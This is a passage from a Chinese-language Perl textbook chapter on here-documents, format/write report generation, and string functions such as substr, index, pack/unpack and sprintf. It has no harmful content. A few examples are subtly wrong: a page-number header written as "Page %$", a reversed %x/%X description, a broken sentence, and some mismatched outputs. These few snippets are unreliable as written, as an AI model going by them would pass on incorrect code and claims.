如果你对 **here** 文档进行缩进，文本将按照你的格式化方式显示。（**here** 文档被称为非格式化的，并不是因为你不能对其进行格式化，而是因为 Perl 不会对它们进行格式化。）看下面这个例子：

```perl
print <<EOD;

This
    is
        a
            "here"
                document.
EOD
```

```
This
    is
        a
            "here"
                document.
```

在进入更强大的 Perl 格式之前，我们再来看一个关于 **here** 文档的样式方面的内容——如何在代码中对 **here** 文档进行缩进，而不是在显示时缩进。

### 在代码中缩进 **here** 文档

你将 **here** 文档的文本直接放在代码中，如果周围的代码有缩进而你的 **here** 文档没有，这可能会造成一个小的样式问题，因为 **here** 文档也会打印出你用来缩进它的空格。结果是你可能觉得需要放弃缩进代码，如下例所示：

```perl
$display = 1;

if ($display) {
    print <<EOD;
This
    is
        a
            "here"
                document.
EOD
}
```

事实上，你可以将 **here** 文档作为字符串存储在标量中，这可以解决整个问题，或者说几乎解决整个问题，因为文档结束标记仍然必须顶格书写。在这个例子中，我将一个缩进的 **here** 文档存储在名为 **$here** 的变量中，然后在打印文档之前简单地去掉前导空格：

```perl
$display = 1;

if ($display) {
    $here = <<EOD;
This
is
a
"here"
document.
EOD

    $here =~ s/^\s+//mg;

    print $here;
}
```

> This
> is
> a
> "here"
> document.

结果是 **here** 文档在代码中被缩进以匹配周围的代码，但在显示时没有缩进。如果你想要比这更复杂的处理，你应该考虑 **here** 文档是否适合你的需求。可以考虑使用单独的 **print** 语句，或者接下来要介绍的 Perl 格式。

### 创建格式化文本

大老板要你为公司的年度报告创建一套表格。"这些表格必须又长又整洁，"大老板说，"股东报告里要有大量的列、行和各种内容。""但这不会掩盖公司的实际财务状况吗？"你问。大老板给了你一个同情的眼神。

是时候使用 Perl 格式了。这些格式的基础是 **write** 函数，*而不是* **print** 函数。**write** 函数使用与文件句柄关联的格式，将格式化的记录写入文件句柄；如果省略文件句柄，**write** 使用 **STDOUT**：

```perl
write FILEHANDLE
write EXPR
write
```

如果你指定一个表达式而不是文件句柄，Perl 会计算该表达式并将结果作为文件句柄。

要创建通过 **write** 函数输出的格式化文本，你需要创建一个具有以下通用形式的格式：

```perl
format NAME
picture_line
variables
.
```

你需要为格式传递一个名称，并且可以使用 select 函数将格式与文件句柄关联。（更多详情请参阅"格式：将格式化文本打印到文件"主题。）事实上，格式已经与输出通道（如 **STDOUT** 和 **STDERR**）相关联，它们的名称相同——**STDOUT** 和 **STDERR**。这意味着要为 **STDOUT** 创建格式，你只需将 **STDOUT** 指定为格式的名称。实际上，过程比这更简单：如果你不指定名称，format 默认使用 **STDOUT**。

在 **format NAME** 行之后是格式行（picture line），它指定了你希望如何格式化一行输出。也就是说，格式行将按原样打印，但某些字段会将值替换到行中。

格式行可以分为多个字段，每个字段显示一个数据项的值。这些字段可以以 **@** 或 **^** 开头（这些行中不进行任何变量插值）。**@** 字段是常规字段；**^** 字段用于多行文本块填充。你通过填充多个 **<**、**>** 或 **|** 字符来指定字段的长度，分别表示左对齐、右对齐或居中对齐。

> **提示：** 当你用数据填充字段时，如果数据超过了指定的字段宽度，则会被截断。

在格式行之后，你按顺序列出要格式化到格式行字段中的数据项。最后，以一个点号（.）结束格式。

设置好格式之后，你可以使用 **write** 将其输出。默认情况下，**write** 写入 **STDOUT**，但你可以使用 **select** 函数写入任何文件句柄，我们将在本章后面的"格式：将格式化文本打印到文件"主题中看到相关内容。


## 第八章 格式与字符串处理

在本章引言的这个示例中，我将一个格式连接到**STDOUT**，然后使用**write**来显示格式化的文本：

```
format STDOUT =
@<<<<<<<<<<<@>>>>>>>>>>>>>>>
$text1     $text2
.

$text1 = "Hello";
$text2 = "there!";
```

```
write;
```

*Hello*

*there!*

以上介绍了在 Perl 中创建格式的基础知识；我将在接下来的主题中深入探讨细节。

## 格式：左对齐文本

是时候开始为大老板制作那份报告了。你知道你可以将 Perl 格式的图样行拆分成字段，每个字段对应一个数据项。也许最基本的技术就是将文本在字段中简单地左对齐。那么，这是如何实现的呢？

要在格式字段中左对齐文本，你需要在 **@** 字符（**@** 字符表示一个普通字段的开始）之后使用 **<** 字符。字段的宽度（以字符数衡量）由你使用了多少个 **<** 字符加上 **@** 来决定。

让我们看一个示例。在这里，我将格式化并打印四个变量中的数据——**$firstname**、**$lastname**、**$ID** 和（电话）**$extension**，并将每个打印的值在其格式化字段中左对齐：

```
format STDOUT =
@<<<<<<<<<<<@<<<<<<<<<<<@<<<<<<<@<<<<
$firstname  $lastname   $ID    $extension
.

$firstname = "Cary";
$lastname = "Grant";
$ID = 1234;
$extension = x456;
write;
```

*Cary*			*Grant*			*1234*		*x456*

如你所见，当将实际输出与图样行对应时，所有值确实都在其字段中左对齐：

```
@<<<<<<<<<<<@<<<<<<<<<<<@<<<<<<<@<<<<
Cary        Grant       1234    x456
```

## 格式：右对齐文本

"这可不行，"大老板说，"你不能把所有东西都左对齐。看看这些数字。在过去所有的年度报告中，我们一直都是右对齐打印这些数字的。""好的，"你说，"没问题。"

要在格式字段中右对齐文本，请在 `@` 字符（`@` 字符表示一个字段的开始）之后使用 `>` 字符；与 `<` 一样，字段的宽度由字段中出现的 `>` 字符数量决定（加上 `@` 的一个字符）。

在下一个示例中，我设置了一个字段并将显示的值右对齐：

```
format STDOUT =
@>>>>>>>>>>>>>>>
$text
.

$text = "Hello!";

write;
```

```
Hello!
```

如你所见，当将此脚本的输出与图样行进行比较时，输出确实在其字段中右对齐：

```
@>>>>>>>>>>>>>>>
            Hello!
```

## 格式：居中文本

"好的，"大老板说，"现在我们可以在年度报告中右对齐和左对齐文本了。但是标题怎么办？我希望所有标题都*居中*。"大老板的雪茄尖端发出红光。"没问题，"你说，"完全没问题。"

要在格式字段中居中文本，请在图样行的相应字段中使用 | 代替 < 或 >。

看看这个示例：

```
format STDOUT =
@||||||||||||||||||||||||||
$text
.

$text = "Hello!";

write;
```

*Hello!*

如你所见，当将图样行与实际输出进行比较时，我们显示的数据确实在其输出字段中居中：

```
@||||||||||||||||||||||||||
        Hello!
```

## 格式：打印数字

"嗯，"大老板满意地说，"那么现在你可以右对齐文本、左对齐文本和居中文本了。很好。这是年度报告的数据。我希望所有数字都显示到小数点后两位，且仅两位，但百万级别的数字除外——那些你可以显示到小数点后六位。"你说，"哎呀，*小数*位？"

你可以使用 Perl 格式轻松格式化小数位数。你使用 # 字符，配合可选的小数点，来指定一个数字字段，如下面这个示例所示，我指定了显示值时使用的小数位数：

```
$pi = 3.1415926;

format STDOUT =
@.## @.#######
$pi   $pi
.

write;
```

*3.14 3.1415926*

> **提示：** 用作小数点的字符由 Perl 的 **LC_NUMERIC** 语言环境值设定。

请注意，除了使用 **#** 字符之外，你还可以使用 Perl 的 **sprintf** 函数将数字格式化为字符串进行显示。看看这个示例：

```
format STDOUT =
@|||||||||||||||||||||||
sprintf "%.4f", 3.1415
.

write;
```

3.1415

## 格式：格式化多行输出

"嗯，这很好，"大老板说。"现在你可以调整文本对齐方式和格式化数字了。很好。我只有一个问题，"大老板说。"什么问题？"你问。"为什么我们的年度报告只有一行长？""哦，"你说，"应该更长吗？"

在 Perl 中创建多行格式没有问题：只需添加所需的图样行和变量行即可（但请确保以点号 [. ] 结束格式）。

这个示例显示多行内容：

```
format STDOUT =
@<<<<<<<<<<<@<<<<<<<<<<<<<<
$text1     $text2
@<<<<<<<<<<<@<<<<<<<<<<<<<<
$text3     $text4
.
```

```
$text1 = "Hello";
$text2 = "there!";
$text3 = "How're";
$text4 = "things?";

write;
```

Hello      there!
How're     things?

Perl 格式的长度可以是任意的，但如果你的格式变得非常复杂，通常最好将内容拆分成单独的 **write** 语句。

## 格式：使用文本切片的格式化多行输出

"好的，"大老板说，"这是年度报告的文本。你做得这么好，我想把打印整份报告的工作交给你，不只是表格。""但是为什么，"你问，"整份 400 页的报告在一个长字符串中？难道没有人格式化过吗？"大老板耸耸肩说："我只管干活。"

如何处理长字符串文本？你可以将它们切割成*文本切片*，然后按照你的意愿显示这些切片，比如放在不同的行上。

你可以使用 `^` 字符将一个长字符串文本拆分成多个字段。当你使用 `^` 字符时，从你使用的字符串开头截取与指定字段匹配的文本并进行显示（字符串本身会被修改）。

看看这个示例。在这个例子中，我将从一个字符串 **$text** 中提取切片，该字符串包含不同语言的问候语：

```
$text = "Hello!Guten Tag!Bonjour!";
```

当你创建格式时，代码如下；这里我使用特定长度的 `^` 字段从 **$text** 中截取相应数量的文本：

```
format STDOUT =
English: ^<<<<<<
         $text
German: ^<<<<<<<<<<
         $text
French: ^<<<<<<<<
         $text
.
```

```
$text = "Hello!Guten Tag!Bonjour!";
```

不幸的是，这还不是我们所要做的全部。当你使用 **write** 语句时，看看前面代码的输出：

```
English: Hello!
German: Guten
French: Tag!Bonjo
```

这里，Perl 默认在空格处断开字符串 **$text**（即 **Guten Tag!** 中的空格），就像 **split** 函数的行为一样。要更改这一点，我将存储在 Perl 特殊变量 **$:**（关于 Perl 特殊变量的所有详细信息请参见第十章）中的字符串断字符设置为空字符串，如下所示，然后一切就能正常工作了：

```
$: = "";
format STDOUT =
English: ^<<<<<
         $text
German: ^<<<<<<<<
         $text
French: ^<<<<<<<
         $text
.

$text = "Hello!Guten Tag!Bonjour!";

write;
```

English: Hello!
German: Guten Tag!
French: Bonjour!

> 提示：当你使用脱字号字段时，Perl 会生成可变长度的记录；你可以在一行中的任意位置放置一个 ~（波浪号）字符来消除空行，波浪号将被替换为空格。如果你在第一个波浪号旁边放置第二个波浪号，该行将重复显示，直到该行上的所有字段都被使用完毕。

| 相关解决方案： | 所在页码： |
| --- | --- |
| $: 格式字符串断字符 | 430 |

## 格式：非格式化多行输出

想用 Perl 格式快速创建 **here** 文档（请参见本章开头的"显示非格式化文本：Perl **here** 文档"主题）吗？没问题——只需在图样行中使用 **@***。

如果你将 **@*** 作为格式图样行使用，你指定的文本将按原样显示，包括任何换行符。看看这个示例：

```
format STDOUT =
@*
$text
.
$text = "Here\nis\nthe\ntext.";
write;
```

以下是该文本。

注意这个示例的外观和工作方式与 **here** 文档有多么相似：

```
print <<EOD
Here\nis\nthe\ntext.
EOD
```

```
Here
is
the
text.
```

Perl 格式支持 @* 行，只是为了让你更轻松；你可以在格式中包含文本，而无需担心格式化问题，如本例所示：

```
format STDOUT =
@*
$text
@<<<<<<<<<<<@<<<<<<<<<<<@<<<<<<<@<<<
$firstname   $lastname   $ID     $extension
.
```

```
$text = "Here is the data you asked for...";
$firstname = "Cary";
$lastname = "Grant";
$ID = 1234;
$extension = x456;

write;
```

```
Here is the data you asked for...
Cary       Grant       1234   x456
```

## 格式：页眉输出

"非常好，"大老板审视着你用 Perl 格式创建的年度公司报告后说道。"文本都已格式化，表格也是。但是，"大老板问道，"每页上的页眉呢？""页眉？"你问道。"当然，"大老板说，"公司名称所在的位置，更重要的是，我的名字。"

你可以使用文件句柄名称加 **_TOP** 后缀的方式来格式化文件句柄的页眉。此页眉会显示在每个输出页面的顶部。在这个示例中，我为即将输出到 **STDOUT** 的一些数据创建了页眉：

```
format STDOUT_TOP =
            Employees
First Name  Last Name  ID       Extension
----------------------------------------
.
```

现在，你可以随意创建和使用其他 **STDOUT** 格式，而 **STDOUT_TOP** 格式将出现在每页的顶部。请看这个示例：

```
format STDOUT_TOP =
            Employees
First Name  Last Name  ID       Extension
----------------------------------------
.
```

```
format STDOUT =
@<<<<<<<<<<<<@<<<<<<<<<<<<@<<<<<<<@<<<<
$firstname  $lastname  $ID      $extension
.
```

```
$firstname = "Cary"; $lastname = "Grant";
$ID = 1234; $extension = x456;

write;
```

```
                  Employees
First Name  Last Name  ID       Extension
----------------------------------------
Cary        Grant      1234     x456
```

## 格式：使用格式变量

新手程序员一直热切地在你旁边看着你处理格式。"那么，"新手程序员问道，"格式还能做什么？""很多，"你说，"先去倒杯咖啡吧。"

Perl 的几个特殊变量与格式有关；以下列表展示了它们及其用途：

- **$~**—当前格式名称
- **$^**—当前页眉格式名称
- **$%**—当前输出页码
- **$=**—页面上的行数
- **$-**—当前页剩余行数
- **$|**—设为 true 以自动刷新输出
- **$^L**—每次页眉前输出的字符串（*除了*第一页）

你可以使用这些变量来显示当前页码、设置页面上的行数（默认为 60）、创建命名格式等等。

在下一个示例中，我创建了一个名为 **standardformat** 的格式，然后使用 **$~** 将其与当前输出通道 **STDOUT** 关联：

```
format standardformat =
@|||||||||||||||||||||||
$text
.
$text = "Hello!";
$~ = standardformat;
write;
```

> Hello!

如果你想将格式化数据写入 **STDOUT** 以外的地方呢？请看下一个主题。

> *注意：有关使用 Perl 特殊变量（与格式相关）的更多详细信息，请参阅本章中即将出现的主题"格式：创建多页报告"。*

## 格式：将格式化文本打印到文件

大老板对你用 Perl 格式创建的年度公司报告非常满意。"很好，"大老板说，"现在把文件发送给打印机。""文件，"你说，"什么文件？这只是为 **STDOUT**——也就是屏幕——格式化的。""好吧，"大老板咆哮道，"把它存到文件里。""嗯，"你说，"那怎么做呢？"

默认情况下，你与格式一起使用的 **write** 语句会写入 **STDOUT**。但是，你可以使用 **select** 语句来改变这一点；为此，你应该先为格式命名。

让我们看一个示例。在这里，我创建了一个名为 **standardformat** 的格式和一个名为 **standardformat_top** 的页眉格式：

```
format standardformat_top =
                Employees
First Name  Last Name   ID      Extension
------------------------------------------
.
```

```
format standardformat =
@<<<<<<<<<<<<@<<<<<<<<<<<<@<<<<<<<@<<<<
$firstname   $lastname    $ID     $extension
.
```

```
$firstname = "Cary"; $lastname = "Grant";
$ID = 1234; $extension = x456;
```

接下来，你打开一个文件用于输出（有关文件处理的详细信息请参见第 13 章），本例中为 report.frm，并使用 **select** 函数选择该文件，以便 **write** 函数将写入该文件：

```
open FILEHANDLE, ">report.frm" or die "Can't open file";

select FILEHANDLE;
```

最后，你通过设置特殊变量 **$~** 和 **$^**（有关 Perl 特殊变量在格式中的使用信息，请参见前面的主题），将 **standardformat** 和 **standardformat_top** 这两个格式与该文件句柄关联起来，然后写入文件并关闭它：

```
open FILEHANDLE, ">report.frm" or die "Can't open file";

select FILEHANDLE;

$~ = standardformat;
$^ = standardformat_top;

write;
close;
```

此代码创建了一个名为 report.frm 的文件，其中包含以下文本：

```
                        Employees
First Name  Last Name   ID      Extension
-------------------------------------------
Cary        Grant       1234    x456
```

想创建多页格式化报告？请看下一个主题。

## 格式：创建多页报告

"你创建的年度报告很棒，"大老板说。"谢谢，"你说。"只有一个问题，"大老板说，"这只有一页长。另外 399 页在哪里？""嗯，"你说，"我来研究一下。"

你使用的三个特殊变量与页面和页码有关：

- $%—当前输出页码
- $=—页面上的行数
- $-—当前页剩余行数

使用这些变量，你可以创建多页报告。

让我们看一个示例；在这里，我将把多页报告写入一个文件。我首先在每页顶部的页眉中显示当前页码 $%：

```
format standardformat_top =
@>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>
"Page %$"
                       Employees
First Name  Last Name  ID      Extension
----------------------------------------
.
```

```
format standardformat =
@<<<<<<<<<<<@<<<<<<<<<<<<@<<<<<<<@<<<<
$firstname  $lastname   $ID     $extension
.
```

```
$text = "Here is the data you asked for...";
$firstname = "Cary";
$lastname = "Grant";
$ID = 1234;
$extension = x456;
```

现在，我打开一个文件 report.frm 用于写入报告，并选择该文件的文件句柄，以便 **write** 将写入该文件：

```
open FILEHANDLE, ">report.frm" or die "Can't open file";
```

```
select FILEHANDLE;
```

最后，我将创建的格式与文件关联起来。我还会将每页的长度设置为一行（默认为 60——注意页长以行数计算，不包括页眉），以展示在页眉中使用页码时页码是如何自动变化的，这是通过设置特殊变量 **$=** 实现的，然后我将数据写入文件两次（创建两行输出，即两页）：

```
$~ = standardformat;
$^= standardformat_top;
$= = 1;

write;
write;
```

文本在创建的文件 report.frm 中显示如下：

```
                                    Page 1
            Employees
First Name  Last Name   ID       Extension
--------------------------------------------
Cary        Grant       1234     x456
                                    Page 2
            Employees
First Name  Last Name   ID       Extension
--------------------------------------------
Cary        Grant       1234     x456
```

## 格式：底层格式化

新手程序员对 Perl 格式产生了兴趣。新手程序员问道："你还能告诉我关于格式的什么？""嗯，"你说，"我能想到一两件事。""是吗？"新手程序员问道。

Perl 本身用于格式化文本行的底层函数称为 **formline**；通常，你像这样使用 **formline**：

```
formline FORMAT, LIST
```

你只需要将一个格式和要显示在该行中的项目列表传递给 **formline**。此函数的结果存储在格式累加器变量 **$^A** 中。（如果你检查一下，会发现 **formline** 无论实际发生了什么，总是返回 true。）

请看下面的示例。在这个例子中，我创建了一个新的格式，并将 **right**、**center** 和 **left** 这些词传递给 **formline**，以指示

继续执行；最后，我打印累加器的内容（请注意，如果你反复使用**formline**，你应该通过将**$^A**设置为空字符串来清空它）：

```
$str = formline <<'EOD', right, center, left;
Here's some text justification...
---------------------------
@<<<<<<<<<@|||||||@>>>>>>>>>>
EOD

print "$^A\n";
```

*Here's some text justification...*
---------------------------
*right*     *center*         *left*

这结束了我们对Perl格式的探讨。最初，格式曾是Perl的一大特色，但随着时间的推移，情况发生了变化；现在的主要主题是CGI、网络等。然而，这并不意味着格式已经过时；事实上，由于它们能够轻松格式化文本以供显示，它们在CGI脚本中正焕发出新的生命力。

## 字符串处理：使用 **lc** 和 **uc** 转换大小写

你正在用Perl编写你的新文字处理器SuperDuperText，其中一个功能允许用户更改所选文本整个字符串的大小写。那么，究竟如何才能更改字符串的大小写呢？

你可以使用 **lc** 将字符串转换为小写，使用 **uc** 将字符串转换为大写：

```
lc EXPR
lc
uc EXPR
uc
```

这两个函数将 *EXPR* 给定的字符串转换为小写或大写；如果省略 *EXPR*，它们将作用于 **$_**。

在这个例子中，我使用 **lc** 将用户输入的内容转换为小写，使用 **uc** 将相同的字符串转换为大写：

```
while (<>) {
    print "Here's what you typed lowercased: " . lc . "\n";
    print "Here's what you typed uppercased: " . uc . "\n";
}
```

Now is the time.
Here's what you typed lowercased: now is the time.
Here's what you typed uppercased: NOW IS THE TIME.

> 提示：值得注意的是，lc实际上是Perl的内部函数，用于在双引号字符串中实现 \L 转义字符，而uc是Perl的内部函数，用于在双引号字符串中实现 \U 转义字符。如果编译指示 **use locale** 生效，这两个函数都会遵循 **LC_CTYPE** 区域设置。

## 字符串处理：使用 lcfirst 和 ucfirst 转换首字母大小写

你可以使用uc函数将整个字符串转换为大写，但如果你想让用户输入的字符串采用句首大写格式，即只将字符串的第一个字符大写，该怎么办？为此，你可以使用ucfirst。

两个字符串处理函数作用于字符串的第一个字符：lcfirst和ucfirst。通常，你可以这样使用它们：

```
lcfirst EXPR
lcfirst
ucfirst EXPR
ucfirst
```

这两个函数将EXPR给定的字符串的第一个字符转换为小写（lcfirst）或大写（ucfirst）；如果省略EXPR，它们将作用于$_。

在这个例子中，我使用lc将用户输入的第一个字符转换为小写，使用uc将相同字符串的第一个字符转换为大写：

```
while (<>) {
    print "Initial lowercase: " . lcfirst;
    print "Initial uppercase: " . ucfirst;
}
```

Now is the time.
Initial lowercase: now is the time.
Initial uppercase: Now is the time.
the time?
Initial lowercase: the time?
Initial uppercase: The time?

> 提示：值得注意的是，**lcfirst** 实际上是Perl的内部函数，用于在双引号字符串中实现 \l 转义字符，而 **ucfirst** 是Perl的内部函数，用于在双引号字符串中实现 \u 转义字符。如果编译指示 **use locale** 生效，这两个函数都会遵循 **LC_CTYPE** 区域设置。

## 字符串处理：使用 **index** 和 **rindex** 搜索字符串

是时候在你的新文字处理器SuperDuperText中实现“查找”菜单项了。使用此项目，用户可以在字符串中搜索特定的子字符串。“嗯，”你说，“这将如何实现呢？”

要搜索字符串中的子字符串，你可以使用 **index** 函数：

```
index STR, SUBSTR, POSITION
index STR, SUBSTR
rindex STR, SUBSTR, POSITION
rindex STR, SUBSTR
```

**index** 函数返回 **SUBSTR** 在字符串 **STR** 中从 **POSITION** 或之后开始第一次出现的位置（从零开始计数）。你可以省略 **POSITION**，在这种情况下，该函数从字符串的开头开始搜索。如果未找到子字符串，则函数返回 -1（除非你使用 **$[** 变量更改了搜索基准，你不应该这样做，因为这是已弃用的）。

**rindex** 函数与 **index** 类似，只是它返回 **SUBSTR** 在 **STR** 中 *最后一次* 出现的位置。如果你为 **POSITION** 指定了一个值，则该函数返回在该位置处或之前最后一次出现的位置。

让我们看一个例子。这里，我将搜索文本 "**This is the promise.**" 中的子字符串 **is**，并显示该子字符串从主字符串开头和末尾第一次出现的位置，如下所示：

```
$text = "This is the promise.";

print "First occurrence of \"is\" is at position: " .
    index($text, "is") . "\n";
print "Last occurrence of \"is\" is at position: " .
    rindex($text, "is") . "\n";
```

> First occurrence of "is" is at position: 2
Last occurrence of "is" is at position: 16

## 字符串处理：使用 **substr** 获取子字符串

是时候在你的新文字处理器SuperDuperText中实现替换功能了。现在唯一的问题是，如何在Perl中用其他子字符串替换特定的子字符串。

获取子字符串没有问题。你可以使用 **substr** 函数从传递给它的字符串中获取或替换子字符串。通常，你可以这样使用 **substr**：

```
substr EXPR,OFFSET,LEN,REPLACEMENT
substr EXPR,OFFSET,LEN
substr EXPR,OFFSET
```

返回的子字符串的第一个字符位于 ***OFFSET*** 处；如果 ***OFFSET*** 为负数，**substr** 将从字符串末尾开始向前移动。如果省略 ***LEN***，**substr** 将返回直到字符串末尾的所有文本。如果 ***LEN*** 为负数，**substr** 将省略字符串末尾的相应字符数。你也可以通过在 ***REPLACEMENT*** 中指定一个字符串来替换子字符串。

让我们看一些使用 **substr** 的例子：

```
$text = "Here is the text.";

print substr ($text, 12) . "\n";
text.

print substr ($text, 12, 4) . "\n";
text
```

你可以使用 ***REPLACEMENT*** 参数替换主字符串中的子字符串，如下面的例子所示；在这个例子中，我用 **word** 替换了 **text**：

```
substr ($text, 12, 4, "word");
print "$text\n";
Here is the word.
```

你也可以将 **substr** 用作一个有效的左值（lvalue），例如：

```
$text = "Here is the text.";

substr ($text, 12, 4) = "word";
print $text;
Here is the word.
```

如你所见，**substr** 是Perl字符串处理的核心，允许你处理和替换字符串的任何部分。

> **提示：** 当你使用 **substr** 替换文本时，目标子字符串会增长或收缩以匹配你用来替换它的字符串。

现在，考虑另一个例子；在这个例子中，我编写了一个有用的函数 **replace**，它用另一个子字符串替换字符串中的一个子字符串。你只需将主字符串、要替换的字符串以及要插入主字符串的字符串传递给 **replace**。代码如下所示：

```
sub replace
{
    ($text, $to_replace, $replace_with) = @_;

    substr ($text, index($text, $to_replace),
        length($to_replace), $replace_with);

    return $text;
}

print replace("Here is the text.", "text", "word");
```

*Here is the word.*

注意，我在这里使用了 **substr**、**index** 和一个新的字符串函数——**length**。要获取 **length** 函数的所有详细信息，请查看下一个主题。

## 字符串处理：使用 length 获取字符串长度

新手程序员对着一些代码叹气。“哇，”新手说，“这是一个很长的文本字符串。”“它有多长？”你问。“很长，”新手说，“非常长。”“有多少个字符？”你问。新手毫无头绪。“使用 **length** 函数，”你说，“当你在字符串上使用它时，你会得到该字符串的字符长度。”

通常，你可以这样使用 **length** 函数：

```
length EXPR
length
```

此函数返回 ***EXPR*** 值的长度（以字节为单位）。如果省略 ***EXPR***，此函数返回 **$_** 中值的长度。


如果你经常处理字符串，会发现自己一遍又一遍地使用这个实用函数。下面这个示例展示了它的工作原理，我在这里显示字符串的长度：

```perl
$text = "Hello there!";

print "The string \"$text\" is " . length ($text) . " characters long.";
```

*字符串 "Hello there!" 的长度为 12 个字符。*

这个函数不仅本身有用，而且因为在处理其他函数（例如 **substr** 函数）时，你经常需要指定字符串的长度。我这样使用 **length** 函数，结合 **substr** 来用另一个子字符串替换原有子字符串：

```perl
sub replace
{
    ($text, $to_replace, $replace_with) = @_;

    substr ($text, index($text, $to_replace),
        length($to_replace), $replace_with);

    return $text;
}

print replace("Here is the text.", "text", "word");
```

*Here is the word.*

## 字符串处理：打包与解包字符串

> “好了，”新手程序员说，“我已经真正掌握了 Perl 中字符串处理的技巧。” “哦，是吗？”你问道。“那么超级强大的 **pack** 和 **unpack** 函数呢？”新手咽了口口水，说：“超级强大？”

你可以使用 **pack** 和 **unpack** 在二进制级别、逐个字符地处理字符串。我先从 **pack** 函数开始，它接受一个值列表并将它们打包成一个字符串：

```perl
pack TEMPLATE, LIST
```

其中，*LIST* 是你要打包的值列表，而 *TEMPLATE* 是一个字符序列，用于指定这些值的顺序和类型，使用以下格式说明符：

# 第 8 章 格式与字符串处理

- **@**—用空字符填充到绝对位置
- **A**—ASCII 字符串，将用空格填充
- **a**—ASCII 字符串
- **B**—位字符串（降序）
- **b**—位字符串（升序）
- **C**—无符号 char 值
- **c**—有符号 char 值
- **d**—本机格式的双精度浮点数
- **f**—本机格式的单精度浮点数
- **H**—十六进制字符串（高位在前）
- **h**—十六进制字符串（低位在前）
- **I**—无符号整数值
- **i**—有符号整数值
- **L**—无符号 long 值
- **l**—有符号 long 值
- **N**—大端序的 long
- **n**—大端序的 short
- **P**—指向结构体的指针
- **p**—指向以空字符结尾的字符串的指针
- **S**—无符号 short 值
- **s**—有符号 short 值
- **u**—uuencoded 字符串
- **V**—小端序的 long
- **v**—小端序的 short
- **w**—BER 压缩整数
- **X**—后退一个字节
- **x**—一个空字节

每个字母后面可以跟一个数字，表示重复次数；你也可以使用 * 作为重复次数的通配符。

让我们看一些例子。这里，我将使用 **pack** 创建一些字符串；例如，我通过给出字符代码来打包字符：

```perl
print pack("ccc", 88, 89, 90);
```

XYZ

```perl
print pack("c3", 65, 66, 67);
```

ABC

```perl
print pack("c*", 68, 69, 70, 71);
```

DEFG

另一方面，**unpack** 函数用于解包你用 **pack** 函数打包的字符串，其通用用法如下：

```perl
unpack TEMPLATE, EXPR
```

其中，*EXPR* 是你要解包的表达式，*TEMPLATE* 参数的设置与 **pack** 函数相同。在这个例子中，我解包一个刚刚打包的字符串：

```perl
$string = pack("ccc", 88, 89, 90);

print join(", ", unpack "ccc", $string);
```

88, 89, 90

当你想显示二进制数时，打包和解包就派上用场了。要将一个数字转换为二进制数字串，首先在网络字节序（也称为大端序，即最高有效位在前）下**打包**它，然后像这样逐位**解包**：

```perl
$decimal = 17;
$binary = unpack("B32", pack("N", $decimal));
print $binary;
00000000000000000000000000010001
```

要将二进制数字串转换回数字，只需反向执行上述过程，如下所示：

```perl
$decimal = 17;
$binary = unpack("B32", pack("N", $decimal));
$newdecimal = unpack("N", pack("B32", $binary));
print $newdecimal;

17
```

> **提示：** 这样转换的字符串必须有 32 位，因此如有必要，请确保添加前导零。

以下示例展示了如何使用 **unpack** 从字符串中提取子字符串，就像 **substr** 一样：

```perl
$string = "This is the text";
$substring_start = 12;
$substring_length = 4;

print unpack("x$substring_start a$substring_length", $string);
```

text

在下一个示例中，我将一个字符串解包为一个字符值数组：

```perl
$s = "Hello";
@a = unpack("C*", $s);
print join(", ", @a);
```

72, 101, 108, 108, 111

## 字符串处理：使用 **sprintf** 格式化字符串

是时候在你的应用程序 SuperDuperDataCrunch 中显示数据排序的结果了，但你需要考虑一个重要的问题——很少有人会需要账户余额打印到小数点后七位。如何控制你显示的数字的精度呢？

你可以使用 **sprintf** 函数。这个函数格式化一个字符串，将一个值列表插入到该字符串中，如下所示：

```perl
sprintf FORMAT, LIST
```

其中，*LIST* 包含你要格式化的值，*FORMAT* 是一个字符串，指示你希望这些值如何被格式化；**sprintf** 将返回格式化后的字符串。通常，你在 *FORMAT* 中对 *LIST* 中的每个元素使用一个转换。你可以在 *FORMAT* 中使用这些转换：

- **%%**—百分号
- **%c**—给定数字对应的字符
- **%d**—有符号整数，十进制
- **%E**—浮点数，科学计数法
- **%e**—类似 %E，但使用小写 e
- **%f**—浮点数，固定小数点表示法
- **%G**—浮点数，使用 %e 或 %f 表示法
- **%g**—类似 %G，但使用小写 g
- **%n**—下一个变量输出的字符数
- **%o**—无符号整数，八进制
- **%p**—指针（值的十六进制地址）
- **%s**—字符串
- **%u**—无符号整数，十进制
- **%X**—无符号整数，十六进制
- **%x**—类似 %X，但使用大写 X

为了向后兼容，Perl 也允许使用以下转换：

- **%D**—与 %ld 相同
- **%F**—与 %f 相同
- **%i**—与 %d 相同
- **%O**—与 %lo 相同
- **%U**—与 %lu 相同

此外，Perl 允许在 % 和转换字母之间使用这些标志：

- -—在字段内左对齐
- #—为非零八进制数添加前缀 0，为非零十六进制数添加前缀 0x
- .number—设置浮点值的小数点后位数、字符串的最大长度或整数的最小长度
- +—为正数添加加号前缀
- 0—用零（而非空格）进行右对齐
- h—将整数解释为 C 类型的 short 或 unsigned short
- l—将整数解释为 C 类型的 long 或 unsigned long
- number—设置最小字段宽度
- space—为正数添加空格前缀

另外，这个是 Perl 特有的：

- V—将整数解释为 Perl 的标准整数类型

让我们看一些例子（注意第一个例子对值进行了四舍五入）：

```perl
$value = 1234.56789;
print sprintf "%.4f\n", $value;
```

> 1234.5679

```perl
print sprintf "%.5f\n", $value;
```

> 1234.56789

```perl
print sprintf "%6.6f\n", $value;
```

> 1234.567890

```perl
print sprintf "%+ .4e\n", $value;
```

> +1.2346e+003

**sprintf** 函数在字符串和数字之间差异很大的语言（如 C）中是一个很棒的函数，因为当你想显示一个数字时，可以使用 **sprintf** 将其打印到字符串中。然而，在 Perl 中，由于它有一种简单的方法将字符串和数字都作为标量来处理，所以这不是那么必要。

让我补充一下关于 **sprintf** 的说明：在 Perl 4 中，你可以将一个数组传递给 **sprintf**，但在 Perl 5 中就不行了。在 Perl 5 中，标量上下文中的数组只返回其元素数量，因此尽管这段代码在 Perl 4 中会打印 "Perl"，但在 Perl 5 中只打印 "5"：

```perl
@a = ("%s%s%s%s", "P", "e", "r", "l");
print sprintf(@a);
```

> 5

## 字符串处理：比较字符串

“好了，”新手程序员说，“我已经设置好了字符串比较例程。看到了吗？它是这样的：**if ($string1 == $string2)** . . .” “打住，”你说，“我看到你的问题了。” 新手问：“我的*问题*？”

Perl 有两套比较运算符：一套用于数字（详见第 4 章），一套用于字符串。字符串比较运算符见表 8.1（也请参阅第 4 章）。


## 表8.1 字符串比较运算符

| 运算符 | 返回结果 |
